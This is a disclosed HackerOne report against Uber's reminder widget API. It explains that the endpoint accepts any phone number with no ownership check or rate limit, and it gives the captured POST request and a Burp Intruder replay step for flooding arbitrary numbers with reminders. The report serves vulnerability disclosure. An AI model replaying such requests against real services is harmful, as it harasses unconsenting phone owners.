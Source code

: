 # Attacker could setup reminder remotely using brute force

## Report Details
- **Report ID**: 158393
- **URL**: https://hackerone.com/reports/158393
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-11T07:50:23.422Z
- **Disclosed**: 2016-09-19T00:04:46.344Z

## Reporter
- **Username**: cymtrick
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi,

Attacker could setup the reminder for bulk  no of amount of accounts using there phone no's. He could setup infinite no of reminders. Tried brute force for 100 times worked perfectly
here is the link : https://widgets.uber.com/american-airlines-reminders/
Here any phone-no is accepted. Actually logged in user phone-no should be cross checked.

TCP DUMP while setting up reminder:

```
POST /american-airlines-reminders/api/v1/reminders HTTP/1.1
Host: widgets.uber.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-CSRF-Token: 
x-uber-origin: web-reminders
Content-Type: application/json
Referer: https://widgets.uber.com/american-airlines-reminders/
Content-Length: 87
Cookie: 
Connection: keep-alive

{"event":{"time":1470940200},"phone_number":"+919949111969","reminder_time":1470937500}
```

Send that request to intruder in burp and try to brute force. Setting up reminder is always shown with response code 200 .
my reminder was setup on Thu, 11 Aug 2016 17:45:00 GMT multiple times. Attacker could perform this on multiple phone-no.
This could issue for user's because their phone gets constantly notifications.
Regards
prashanth varma



## Attachments
- Screen_Shot_2016-08-11_at_1.14.42_PM.png
- Screen_Shot_2016-08-11_at_1.14.52_PM.png
